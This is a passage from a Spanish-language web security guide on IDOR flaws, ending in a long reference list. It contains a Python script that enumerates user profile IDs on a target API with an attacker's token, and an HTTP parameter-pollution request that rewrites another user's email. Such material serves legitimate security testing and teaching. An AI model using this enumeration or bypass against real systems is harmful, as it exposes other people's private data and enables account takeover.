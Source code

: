 **Resultado Esperado:** Acceso a información de administrador sin permisos

### Automatizada: Script de Enumeración

```python
import requests
import json

def test_idor_enumeration(base_url, auth_token, start_id=1, end_id=100):
    """
    Script automatizado para detección de IDOR
    """
    headers = {
        'Authorization': f'Bearer {auth_token}',
        'Content-Type': 'application/json'
    }
  
    vulnerable_ids = []
  
    for user_id in range(start_id, end_id + 1):
        url = f"{base_url}/api/user/{user_id}/profile"
  
        try:
            response = requests.get(url, headers=headers, timeout=10)
      
            if response.status_code == 200:
                data = response.json()
                # Verificar si contiene datos de otro usuario
                if 'username' in data and data['username'] != 'current_user':
                    vulnerable_ids.append(user_id)
                    print(f"[+] IDOR encontrado: ID {user_id} - Usuario: {data.get('username')}")
              
        except requests.RequestException as e:
            print(f"[-] Error al probar ID {user_id}: {e}")
  
    return vulnerable_ids

# Uso del script
vulnerable = test_idor_enumeration('https://victima.com', 'token_atacante', 1, 50)
```

## Explotación/Automatización

### Variantes de Bypass

**Contaminación de Parámetros**[^7]

```http
POST /api/update_profile HTTP/1.1
user_id=1001&user_id=1002&email=atacante@email.com
```

**Manipulación JSON**[^7]


[^1]: https://portswigger.net/web-security/access-control/idor
[^2]: https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html
[^3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References
[^4]: https://escape.tech/blog/idor-in-graphql/
[^5]: https://portswigger.net/web-security/graphql
[^6]: https://redmethod.hashnode.dev/idor-broken-authentication
[^7]: https://www.intigriti.com/blog/news/idor-a-complete-guide-to-exploiting-advanced-idor-vulnerabilities
[^8]: https://spyboy.blog/2024/09/19/idor-vulnerabilities-finding-exploiting-and-securing/
[^9]: https://www.webasha.com/blog/what-is-an-example-of-a-real-bug-bounty-report-where-idor-was-used-to-exploit-a-banking-application
[^10]: https://www.veracode.com/security/java/cwe-639/
[^11]: https://www.clouddefense.ai/cwe/definitions/639
[^12]: https://cqr.company/web-vulnerabilities/idor-vulnerability/
[^13]: https://www.aptori.com/blog/a-guide-to-identifying-idor-vulnerabilities
[^14]: https://gbhackers.com/building-a-threat-detection-pipeline-using-waf-logs-and-external-intel-feeds/
[^15]: https://the-red.team/post/templates/idor/
[^16]: https://www.nodejs-security.com/blog/how-to-hunt-for-idor-vulnerabilities-to-exploit-security-misconfiguration
[^17]: https://infosecwriteups.com/️-hunting-idor-a-deep-dive-into-insecure-direct-object-references-b550a9f77333
[^18]: https://limpiatuweb.com/blog/referencias-de-objetos-directos-inseguras-idor/
[^19]: https://www.legitsecurity.com/aspm-knowledge-base/insecure-direct-object-references/
[^20]: https://bigid.com/blog/idor-vulnerability/
[^21]: https://book.h4ck.cl/vulnerabilidades-web/idor-insecure-direct-object-reference
[^22]: https://www.wiz.io/vulnerability-database/cve/cve-2025-3281
[^23]: https://portswigger.net/burp/documentation/desktop/testing-workflow/access-controls/testing-for-idors
[^24]: https://virtualcyberlabs.com/insecure-direct-object-references-idor/
[^25]: https://www.youtube.com/watch?v=jvDFiIyNW_o
[^26]: https://authenticone.com/idor-the-silent-gateway-to-data-breaches/
[^27]: https://www.invicti.com/learn/insecure-direct-object-references-idor/
[^28]: https://www.vaadata.com/blog/what-are-idor-insecure-direct-object-references-attacks-exploits-security-best-practices/
[^29]: https://lab.wallarm.com/what/vulnerabilidad-idor-referencias-directas-a-objetos-inseguras/?lang=es
[^30]: https://osintteam.blog/understanding-cvss-scoring-with-a-real-world-idor-example-in-e-commerce-fbb885db932f
[^31]: https://www.first.org/cvss/calculator/3-1
[^32]: https://docs.hackerone.com/en/articles/8369826-detailed-platform-standards
[^33]: https://spyboy.blog/2025/04/24/the-ultimate-guide-to-finding-idor-vulnerabilities-guaranteed-approach-top-payloads-tools/
[^34]: https://infosecwriteups.com/how-to-choose-the-correct-severity-or-cvss-score-for-a-bug-a-practical-guide-7a83be0096f3
[^35]: https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html
[^36]: https://techcommunity.microsoft.com/blog/azurenetworksecurityblog/comprehensive-guide-to-monitoring-azure-waf-metrics-and-logs/4378260
[^37]: https://patchstack.com/database/wordpress/plugin/thumbs-rating/vulnerability/wordpress-thumbs-rating-plugin-5-1-0-insecure-direct-object-references-idor-vulnerability
[^38]: https://docs.guardrails.io/docs/vulnerability-classes/insecure-access-control/idor
[^39]: https://infosecwriteups.com/automate-xss-idor-bug-hunting-using-bash-python-a-hackers-toolkit-e8453e51f703
[^40]: https://hackerone.com/reports/2207248
[^41]: https://www.vaadata.com/blog/exploiting-a-broken-access-control-vulnerability-on-graphql/
[^42]: https://www.verylazytech.com/idor
[^43]: https://security.tecno.com/SRC/blogdetail/304?lang=en_US
[^44]: https://github.com/AyemunHossain/IDORD
[^45]: https://osintteam.blog/25000-idor-how-a-simple-id-enumeration-exposed-private-data-7de2f60c46fd
[^46]: https://github.com/S12cybersecurity/Idor-Hunter
[^47]: https://academy.hackthebox.com/course/preview/attacking-graphql
[^48]: https://help.aikido.dev/dast-surface-monitoring/api-scanning/understanding-and-detecting-idor-vulnerabilities
[^49]: https://snyk.io/blog/insecure-direct-object-references-python/
[^50]: https://sayfer.io/es/blog/idor-insecure-direct-object-reference/
[^51]: https://wiki.curiosidadesdehackers.com/insecure-direct-object-reference-idors-prueba-de-concepto-y-explicacion/
[^52]: https://notes.theoffsecgirl.com/01-fundamentos-esenciales/01g-uso-de-etc-hosts
[^53]: https://hetmehta.com/posts/Bypassing-Modern-WAF/
[^54]: https://www.skipso.com/responsible-disclosure
[^55]: https://www.nodejs-security.com/blog/idor-vulnerability-what-is-it-and-how-to-prevent-it
[^56]: https://osintteam.blog/cracking-the-shield-advanced-waf-bypass-techniques-that-still-work-in-2025-814cee616ccf
[^57]: https://www.aon.com/en/insights/cyber-labs/finding-more-idors-tips-and-tricks
[^58]: https://www.imperva.com/learn/application-security/insecure-direct-object-reference-idor/
[^59]: https://infosecwriteups.com/idor-attacks-made-simple-how-hackers-access-unauthorized-data-ca1158d18190
[^60]: https://hadrian.io/blog/insecure-direct-object-reference-idor-a-deep-dive
[^61]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf